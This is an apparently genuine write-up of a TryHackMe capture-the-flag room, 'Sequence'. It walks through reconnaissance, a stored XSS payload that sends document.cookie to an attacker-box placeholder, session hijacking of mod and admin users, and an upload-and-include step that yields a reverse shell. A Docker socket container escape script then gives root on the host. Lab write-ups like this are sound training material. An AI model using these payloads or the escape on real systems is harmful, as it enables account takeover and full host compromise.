


# sequence

Before doing anything we get information that Robert made some last-minute updates to the `review.thm` website

It made me think that we might have to enumerate for subdomain, but i did not find anything

simply we edit hosts file

```
┌──(kali㉿kali)-[~/Desktop/Tools/VPN]
└─$ sudo vim /etc/hosts
...
#### THM ####
10.10.84.108    review.thm
```

## nmap

So doing the `nmap` scan we can see only two ports are open `ssh` and `http`

```
┌──(kali㉿kali)-[~/CTF/tryhackme/rooms/sequence]
└─$ nmap --min-rate 1000 --max-retries 5 -p- -A -oN port_scan.txt review.thm
Nmap scan report for review.thm (10.10.84.108)
Host is up (0.18s latency).
Not shown: 53187 closed tcp ports (reset), 12346 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 34:d1:6b:77:84:1e:ef:9a:8d:e5:df:2f:bf:24:8f:b1 (RSA)
| 256 83:4e:29:ff:a4:a2:4d:ba:47:e9:60:aa:1c:85:cc:a3 (ECDSA)
|* 256 f9:d7:64:1d:2a:c0:66:c1:23:55:c2:d8:71:a4:cf:85 (ED25519)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags:
| /:
| PHPSESSID:
|_ httponly flag not set
|\_http-title: Review Shop
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1025/tcp)
HOP RTT ADDRESS
1 160.04 ms 10.14.0.1
2 160.17 ms review.thm (10.10.84.108)
```

---

Before going for directory enumeration, i saw `contact.php` and `login.php` so it was a hint that the website is using php

```
┌──(kali㉿kali)-[~/CTF/tryhackme/rooms/sequence]
└─$ gobuster dir -u http://review.thm -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x "php,txt" -t 150 --retry
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://review.thm
[+] Method: GET
[+] Threads: 150
[+] Wordlist: /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes: 404
[+] User Agent: gobuster/3.6
[+] Extensions: php,txt
[+] Timeout: 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================

/.php (Status: 403) [Size: 277]
/uploads (Status: 301) [Size: 314] [--> http://review.thm/uploads/]
/header.php (Status: 200) [Size: 1400]
/mail (Status: 301) [Size: 311] [--> http://review.thm/mail/]
/chat.php (Status: 302) [Size: 0] [--> login.php]
/contact.php (Status: 200) [Size: 2246]
/db.php (Status: 200) [Size: 0]
/index.php (Status: 200) [Size: 1694]
/login.php (Status: 200) [Size: 1944]
/javascript (Status: 301) [Size: 317] [--> http://review.thm/javascript/]
/logout.php (Status: 302) [Size: 0] [--> index.php]
/settings.php (Status: 302) [Size: 0] [--> login.php]
/dashboard.php (Status: 302) [Size: 1400] [--> login.php]
/phpmyadmin (Status: 301) [Size: 317] [--> http://review.thm/phpmyadmin/]
/.php (Status: 403) [Size: 277]
/server-status (Status: 403) [Size: 277]

Progress: 661677 / 661680 (100.00%)
===============================================================
Finished
===============================================================
```

Looking into `/mail` we can see that it has directory indexing enabled with single file inside it: `dump.txt`

```
http://review.thm/mail/dump.txt

From: software@review.thm
To: product@review.thm
Subject: Update on Code and Feature Deployment

Hi Team,

I have successfully updated the code. The Lottery and Finance panels have also been created.

Both features have been placed in a controlled environment to prevent unauthorized access. The Finance panel (`/finance.php`) is hosted on the internal 192.x network, and the Lottery panel (`/lottery.php`) resides on the same segment.

For now, access is protected with a completed 8-character alphanumeric password (********), in order to restrict exposure and safeguard details regarding our potential investors.

I will be away on holiday but will be back soon.

Regards,
Robert
```

I did try to brute force `/login.php` with two emails `software@review.thm` and `product@review.thm` but there was no luck...

`/finance.php` and `lottery.php` with the **password** are going to be used when you get access to `admin` user

## mod user

after trying hundreds of ways, i tried `xss` in `/contact.php` in the message field

```
<script>new Image().src="http://<Your_Attackbox_IP>/cookie.php?c="+document.cookie;</script>
```

Setting up a listener and we get back the `mod` user `phpsessid` cookie so we simply change our phpsessid cookie in the browser, reload and now we have access to the user **mod**.

```
┌──(kali㉿kali)-[~/CTF/tryhackme/target/sequence]
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.118.206 - - [22/Sep/2025 03:56:28] code 404, message File not found
10.10.118.206 - - [22/Sep/2025 03:56:28] "GET /cookie.php?c=PHPSESSID=cac51rhpqi4dlk37hskhj5g3c4 HTTP/1.1" 404 -
```

after refreshing you can get the first flag from the header section THM{\*}

## admin user

Looking at the `chat.php` we might think that we have to exploit `xss` again, but its not possible because the web is doing both sanitization and filtering

```
    const msg = document.querySelector('input[name="message"]').value.toLowerCase();
    const dangerous = ["<script>", "</script>", "onerror", "onload", "fetch", "ajax", "xmlhttprequest","eval", "document.cookie", "window.location"];

    for (let keyword of dangerous) {
        if (msg.includes(keyword)) {
            e.preventDefault();
            const modal = new bootstrap.Modal(document.getElementById("warningModal"));
            modal.show();
            break;
        }
    }
```

The chat feature sanitized dangerous keywords, but links posted in chat were made clickable and the admin account would follow them. I posted a link to http://review.thm/admin_view.php (which included the XSS payload in its context), causing the admin to load the payload and exfiltrate the admin PHPSESSID to my listener. With that cookie I accessed the admin interface and retrieved the admin flag.

running your `python http.server` again you will receive both **mod** and **admin** PHPSESSID,
but i did get **admin** cookie once despite **mod** user cookie where you are receiving it ever few seconds

admin flag will be in header section THM{\*}

# Getting foothold

looking at the main page we can see **select feature** with only one option **Lottery Feature** with value `lottery.php`
Remember **Roberts** said: _The Lottery and Finance panels have also been created._

So where is Finance panel?



```
        ...
            <form method="post" enctype="multipart/form-data" class="mb-4">
                <div class="row g-2 align-items-center">
                    <div class="col-md-4">
                        <select name="feature" class="form-select" onchange="this.form.submit()">
                            <option value="">-- Select Feature --</option>
                            <option value="finance.php" >Lottery Feature</option>
                        </select>
                    </div>
                </div>
            </form>
        ...
```

by manually changing the option before selecting it we will get the finance panel where you have to input the password found inside the `dump.txt`



---

than you can simply upload a simple reverse shell.

but why `/uploads` is still empty...

because it is uploading your file into to `/uploads` directory where `lottery.php` and `finance.php` is hosted
so in order to activate your reverse shell, simply change the Select Feature option to this

```
<option value="uploads/<YOUR_REVERSE_SHELL>.php" >Lottery Feature</option>
```

setting up the listener and we will get our shell

```
┌──(kali㉿kali)-[~/CTF/tryhackme/rooms/sequence]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.14.89.8] from (UNKNOWN) [10.10.118.206] 45938
Linux 4f18a45cca05 5.15.0-139-generic #149~20.04.1-Ubuntu SMP Wed Apr 16 08:29:56 UTC 2025 x86_64 GNU/Linux
#id
uid=0(root) gid=0(root) groups=0(root)
```

# root

doing some enumeration we can see that we are inside **docker**!

in order to escape the container we are going to exploit docker socket where we have write access

```
# ls -la /var/run/docker.sock
srw-rw---- 1 root 121 0 Sep 22 00:24 /var/run/docker.sock
```

luckily docker binary is present on the container

Using a small wrapper script I launched a privileged container from the same image with the host filesystem mounted and chrooted into it to obtain a host root shell.

```
#!/bin/bash

# Privilege Escalation through /var/run/docker.sock exploitation

echo "[*] Getting Container Image..."
image=$(docker ps --no-trunc --format '{{.Image}}')
echo "[+] Extracted Image: ${image}"
echo "[*] Trying to get Shell..."
docker run -ti --privileged --net=host --pid=host --ipc=host --volume /:/host $image chroot /host
```

After chrooting, I read /root/flag.txt to get the root flag.

```
#
# cd /root
# ls -la
total 68
drwxr-x--- 12 root root 4096 Jun  4 11:58  .
drwxr-xr-x 19 root root 4096 Sep 21 19:14  ..
lrwxrwxrwx  1 root root    9 Feb  4  2024  .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019  .bashrc
drwxr-xr-x  3 root root 4096 Feb  2  2024  .cache
drwx------  3 root root 4096 Feb  2  2024  .config
drwxr-xr-x  3 root root 4096 Nov 10  2021  .local
-rw-------  1 root root  131 Jun  4 10:18  .mysql_history
-rw-r--r--  1 root root  161 Dec  5  2019  .profile
-rw-r--r--  1 root root   66 Feb  1  2024  .selected_editor
drwx------  2 root root 4096 Nov 10  2021  .ssh
drwxr-xr-x  2 root root 4096 Feb  2  2024  bin
-rw-r--r--  1 root root   20 Jun  4 11:58  flag.txt
drwxr-xr-x  3 root root 4096 Feb  2  2024  lib
drwx------  7 root root 4096 Feb  2  2024  root
drwx------  4 root root 4096 Feb  2  2024  share
drwx------  4 root root 4096 Feb  2  2024  snap
drwx------  3 root root 4096 Feb  2  2024 '~'
# cat flag.txt
THM{*}
```
